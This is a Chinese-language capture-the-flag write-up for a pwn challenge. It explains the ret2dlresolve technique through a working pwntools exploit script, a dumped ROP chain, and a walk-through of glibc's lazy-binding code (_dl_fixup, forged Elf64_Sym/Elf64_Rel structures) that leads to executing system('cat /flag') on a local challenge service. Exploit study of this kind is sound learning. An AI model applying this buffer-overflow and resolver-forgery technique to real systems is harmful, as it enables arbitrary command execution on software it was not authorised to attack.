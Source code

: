 # No way to leak

啊？啊？啊？

很早就见过介绍ret2dlresolve的文章： https://syst3mfailure.io/ret2dl_resolve ，但是一直懒得看。今天看了也没看懂，代码使人头晕。于是我突发奇想，去浏览器搜索`pwntools ret2dlresolve`，竟然真的有结果： https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html

打算先抄下来页面上的例子，看看是什么结果。没想到它直接就成功了……
```py
from pwn import *
context.arch='amd64'
file=ELF("./pwn") #如果用了pwninit的话，不要用patch后的版本
rop = ROP(file)
dlresolve = Ret2dlresolvePayload(file, symbol="system", args=["cat /flag"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
p=remote("localhost",36551)
p.sendafter("process.",b'a'*0x78+rop.chain())
p.sendline(dlresolve.payload)
print(p.recvall(timeout=1)) #有时候会显示Inconsistency detected... ，多运行几次即可
```
以下是做完题后（不甘心自己啥也没学到但又不想好好读文章于是写点什么凑数）的记录（基本上是上述文章的简化+不严谨版）

dump出rop链可得到如下结果：
```
0x0000:         0x401293 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x401291 pop rsi; pop r15; ret
0x0018:         0x404e00 [arg1] rsi = 4214272
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4010a4 read
0x0030:         0x401293 pop rdi; ret
0x0038:         0x404e50 [arg0] rdi = 4214352
0x0040:         0x401020 [plt_init] system
0x0048:            0x304 [dlresolve index]
```
`pop rdi; ret`和`pop rsi; pop r15; ret`的gadget均来自`__libc_csu_init`函数，通过错位某些指令得到。一直到`0x0028`处都没什么特别的，只是在控制read将`dlresolve.payload`读向bss段`0x404e00`处（rdx不用管，因为没有清空vuln处设置的rdx）

根据调试，`0x0030`处控制dlresolve后的函数的rdi。所以如果代码执行成功，dlresolve会跳转system函数，参数为`0x404e50`，对应`cat /flag`

`0x0040`处跳转`0x401020`，为`.plt`代码段。这里只有两段汇编：
```
push   qword ptr [rip + 0x2fe2] //将link_map压入栈上
bnd jmp qword ptr [rip + 0x2fe3] //跳转_dl_runtime_resolve
```
借用上面提到的那篇文章的图就清楚了：

![resolve](https://syst3mfailure.io/ret2dl_resolve/assets/images/lazy_binding.png)

`_dl_runtime_resolve`的定义见 https://elixir.bootlin.com/glibc/glibc-2.31/source/sysdeps/aarch64/dl-trampoline.S#L37 。在gdb里看会更清楚些。该函数保存处理器当前状态，并将栈上的`link_map`和`reloc_arg`转移到rsi和rdi中，最后调用`_dl_fixup`。因此上述payload `0x0048`处的作用是控制`reloc_arg`

关键在[_dl_fixup](https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/dl-runtime.c#L61)里。代码很多，但第一句和`reloc_arg`有关的代码是：
```c
const PLTREL *const reloc = (const void *) (D_PTR(l, l_info[DT_JMPREL]) + reloc_offset);
```
`reloc_offset=reloc_arg * sizeof (PLTREL)=reloc_arg * 0x18`( https://elixir.bootlin.com/glibc/glibc-2.31/source/sysdeps/x86_64/dl-runtime.c )。注意到代码中没有限制`reloc_arg`的大小，所以我们可以通过输入一个很大的`reloc_arg`来控制`reloc`为指向bss段。接下来跟踪`reloc`的相关引用
```c
const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
```
ELFW宏定义如下：
```c
#define ElfW(type)        _ElfW (Elf, __ELF_NATIVE_CLASS, type)
#define _ElfW(e,w,t)      _ElfW_1 (e, w, _##t)
#define _ElfW_1(e,w,t)    e##w##t
```
因此：
```c
ElfW(R_SYM) =
_ElfW(Elf, __ELF_NATIVE_CLASS, R_SYM) =
_ElfW_1(Elf, 64, _R_SYM) =
Elf64_R_SYM
```
根据`Elf64_R_SYM`的[定义](https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/elf.h#L673)，上述代码等于：
```c
const ElfW(Sym) *sym = &symtab[reloc->r_info >> 32];
```
从symtab中取索引为`reloc->r_info >> 32`的`Elf64_Sym`结构体。这个结构体的定义和例子如下：

![Elf64_Sym](https://syst3mfailure.io/ret2dl_resolve/assets/images/elf64_sym.png)

后续有：
```c
void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
```
`rel_addr`是指向解析后的符号在got中存储位置的指针

下方有一个检查：
```c
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
```
把一堆宏定义拆开后，结果为：
```c
assert ((reloc->r_info & 0xffffffff) == 0x7);
```
内容为检查`reloc->r_info`是否为一个有效的`JUMP_SLOT`（用0x7表示）

还有一些伪造结构体的注意事项。我发现文末两种payload均和pwntools里有些许不一样，于是找了pwntools的实现：  https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/rop/ret2dlresolve.py （`_build_structures`函数）

pwntools的构造将目标symbol name，`Elf64_Sym`和`Elf64_Rel`结构体全部放在一起了：
```py
self.payload = fit({
    symbol_name_addr - self.data_addr: symbol_name,
    sym_addr - self.data_addr: sym,
    rel_addr - self.data_addr: rel
})
```
sym如下：
```py
sym = ElfSym(st_name=symbol_name_addr - self.strtab)
```
对应代码里的：
```c
result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
    version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```
rel为：
```py
rel = ElfRel(r_offset=self.resolution_addr, r_info=(index<<ELF_R_SYM_SHIFT)+rel_type)
```
构造`r_info`使得代码取到上述伪造的`ElfSym`